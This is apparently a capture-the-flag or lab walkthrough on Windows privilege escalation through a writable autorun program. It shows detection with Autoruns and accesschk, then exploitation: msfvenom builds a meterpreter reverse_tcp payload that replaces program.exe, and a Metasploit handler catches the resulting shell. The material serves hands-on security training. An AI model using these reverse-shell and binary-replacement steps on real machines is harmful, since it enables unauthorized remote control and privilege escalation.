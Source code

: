 <p>2.2. Open a command prompt and run 'net user'. Who is the other non-default user on the machine?<br>
<code>tcp</code></p>

<img width="963" height="163" alt="image" src="https://github.com/user-attachments/assets/724c1cdf-c46d-48d9-ab1c-ee8b0e09bf64" />




<br>
<br>
<h2 align="center">Task 3 . Registry Escalation - Autorun</h2>
<h3 align="center">Detection</h3>
<p>Windows VM<br>

1. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe<br>
2. In Autoruns, click on the ‘Logon’ tab.<br>
3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.<br>
4. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"<br>
5. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.</p>

<h3 align="center">Exploitation</h3>

<p>Kali VM<br>

1. Open command prompt and type: msfconsole<br>
2. In Metasploit (msf > prompt) type: use multi/handler<br>
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp<br>
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]<br>
5. In Metasploit (msf > prompt) type: run<br>
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe<br>
7. Copy the generated file, program.exe, to the Windows VM.<br><br>

Windows VM<br>

1. Place program.exe in ‘C:\Program Files\Autorun Program’.<br>
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.<br><br>

Kali VM<br>

1. Wait for a new session to open in Metasploit.<br>
2. In Metasploit (msf > prompt) type: sessions -i [Session ID]<br>
3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid</p>

<p><em>Answer the questions below</em></p>

<p>3.1. Click 'Completed' once you have successfully elevated the machine<br>
<code>No answer needed</code></p>

<p align="center">Detection</p>

```bash
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```
